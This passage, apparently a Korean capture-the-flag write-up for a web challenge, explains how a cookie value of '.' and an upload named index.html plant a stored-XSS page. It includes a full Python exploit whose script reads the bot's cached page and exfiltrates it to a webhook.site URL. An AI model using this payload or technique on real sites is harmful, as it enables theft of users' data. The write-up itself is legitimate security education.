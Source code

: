 `req.cookies.sid` 값에 `.` 값을 넣고, `uploadedFile.name`으로 `index.html`으로 지정해주면, `public/index.html` 파일을 생성하여 `/` 경로 접근 시 스크립트 코드가 실행되게 할 수 있다.    

하지만, 중요한 점은 `index.ejs` 파일에 `id` 값을 읽어와야하기 때문에 `cache`를 활용해야한다.            
      
`fetch()` 함수의 `cache: "force-cache"` 옵션은 캐시에 저장된 페이지를 불러와 페이지 로딩 시간을 줄이기 위해 사용된다.     

1. 봇이 `/` 경로에 접근
2. `index.html` 파일 업로드 
3. 유저가 `/` 경로에 접근           
     
위 순서대로 동작할 경우, 유저가 `/` 경로에 접근 시 `index.html` 파일이 로딩되고, 스크립트가 실행되어 `fetch()` 함수가 `/` 경로에 요청을 보내게 되면서 봇이 방문했던 `index.ejs` 파일의 결과 값을 가져오게 된다.      

### Exploit Code    
```python
import httpx, time

url = "ch16496143432.ch.eng.run"

client = httpx.Client(base_url=url) 

res = client.post("/share", json={"id": "x"}, timeout=1) 
print(res.status_code)

time.sleep(2) 

payload = """
<script> 
    fetch('/', {
        cache: "force-cache", 
    }).then(r=>r.text()).then(r=>{
        location = 'https://webhook.site/49bf9d14-dc50-4582-a5f7-d35ad68edc26/?f='+encodeURIComponent(r);
    })
</script> 
""".strip()
client.post("/upload", 
            files={"image": ("index.html", payload)},
            cookies={"sid": "."})
client.get("/?f=x")
```               
     
<img src="/assets/images/ctf/2024/bi0s/image_gallery_1/flag.jpg" width="700px">     
        